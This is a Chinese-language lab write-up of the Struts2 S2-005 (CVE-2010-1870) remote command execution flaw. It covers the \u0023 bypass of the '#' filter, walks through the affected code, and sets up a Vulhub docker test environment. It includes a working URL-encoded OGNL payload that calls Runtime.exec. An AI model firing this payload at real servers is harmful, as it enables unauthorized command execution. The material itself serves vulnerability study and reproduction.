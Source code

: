 
# 0X00 漏洞信息
S2-005的出现是官方在修补S2-003（版本：Struts 2.0.12）漏洞时考虑不充分而造成的，Struts2会将http的每个参数名解析为OGNL语句（可理解为java代码）执行，而OGNL通过#来访问Struts2的对象，Struts2通过用拦截器过滤字符#来防止被恶意利用，然而忽略了通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制。S2-003漏洞，官方通过增加安全限制配置（禁止使用方法调用和类方法等）来文档，但是安全配置被再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，但是此安全配置仍然可以通过OGNL表达式绕过，也就导致了S2-005的出现。

XWork利用巴西GET参数的键和值OGNL表达式解析成Java语句，如：
```
user.address.city=Bishkek&user['favoriteDrink']=kumys
//会被转化成
action.getUser().getAddress().setCity("Bishkek")
action.getUser().setFavoriteDrink("kumys") 
```

触发漏洞利用了这个点，再配合OGNL的沙盒-绕过方法，组成了S2003。官方对003的修复方法是增加了安全模式（沙），S2-005在OGNL表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：

- S2-003 使用\u0023绕过2对#的防御
- S2-003后官方增加了安全模式（沙盒）
- S2-005 使用OGNL表达式将沙盒关闭，继续执行代码


# 0X01 漏洞概述
| 漏洞名称 | Struts2-005远程命令执行漏洞 |
| --- | --- |
| 漏洞等级 | 高危 |
| CVE编号 | CVE-2010-1870 |
| CNVD编号 | 暂无 |
| CNNVD编号 | 暂无 |
| 其他编号 | 暂无 |
| 披露时间 | 2010/05/10 |
| 分数 | 5.0 |
| CVSS |  (AV:N/AC:L/Au:N/C:N/I:P/A:N) |
| 披露链接 | [https://nvd.nist.gov/vuln/detail/CVE-2010-1870](https://nvd.nist.gov/vuln/detail/CVE-2010-1870) |


# 0X02 影响范围
Struts 2.0.0 - Struts 2.1.8.1


# 0X03 环境搭建
使用Vulhub搭建
```
cd vulhub/struts2/s2-005/
docker-compose up -d
```
![image.png](_img/assets/1671783501864-8003c7fe-a52d-4797-a986-2529f05dd013.png)

浏览器访问
![image.png](_img/assets/1671784082635-2c61cfda-1de2-4182-ae55-0c865af04775.png)


# 0X04 代码审计
由官方发布的漏洞通告可知，S2-005是绕过XWorkParameterinterceptors对#的过滤而触发的远程命令执行漏洞，这个拦截器主要就是对url的参数进行一些处理，执行方法是doIntercept
![image.png](_img/assets/1671782806976-9192fa3e-dff6-4a2d-a219-416840fb7dca.png)

setParameters方法调用了acceptableName来判断是否含有非法字符，例如调用对象的#
![image.png](_img/assets/1671782827600-686c6aac-1cd7-4fb6-9f93-d65356f25679.png)
![image.png](_img/assets/1671782835287-f38e7e83-b3b1-44a3-94bc-54991342a538.png)

通过判断后，会调用setValue把参数变成键值对放入另一个valueStack中
![image.png](_img/assets/1671782840549-b5f7c9df-05d3-453b-b48e-d26ac4b7707d.png)

在ognl中，这个valueStack方法的实现类是OgnlValueStack.class，在这个类的setValue方法中，又调用了ognlUtil的setValue方法
![image.png](_img/assets/1671782845066-31f55196-0360-4500-9a64-eca9e28ea8a0.png)

在ognlUtil中可以看到调用了ognl的setValue方法，在调用这个方法之前，会先调用内部的compile方法，将传入的参数解析，也就是将\u0023解析为#
![image.png](_img/assets/1671782851148-12445430-1c0e-45fd-b006-4718716997ee.png)
![image.png](_img/assets/1671782882911-8091a739-fbe6-4f76-bcfa-350604992362.png)

解析之后的字符串会在ognl.setValue方法中执行
![image.png](_img/assets/1671782888805-cf0813b2-8c27-4a16-a3c5-7a9d7212dead.png)


# 0X05 漏洞复现
```
?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/sussess%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
```
![image.png](_img/assets/1671784610138-3f9bff1e-6933-4f20-9165-475641f60538.png)

验证
```
docker ps #查看容器ID
docker exec -it ID /bin/bash #进入容器
ls /tmp  #查看容器内tmp目录
exit  #退出容器
```
![image.png](_img/assets/1671784655636-50230786-ab79-4f6f-9c5e-ec514ec848ae.png)


# 0X05 工具
[Struts2-Scan](https://www.yuque.com/xmtxsec/network_security/iczxlyyk6v7tzfwt?view=doc_embed)
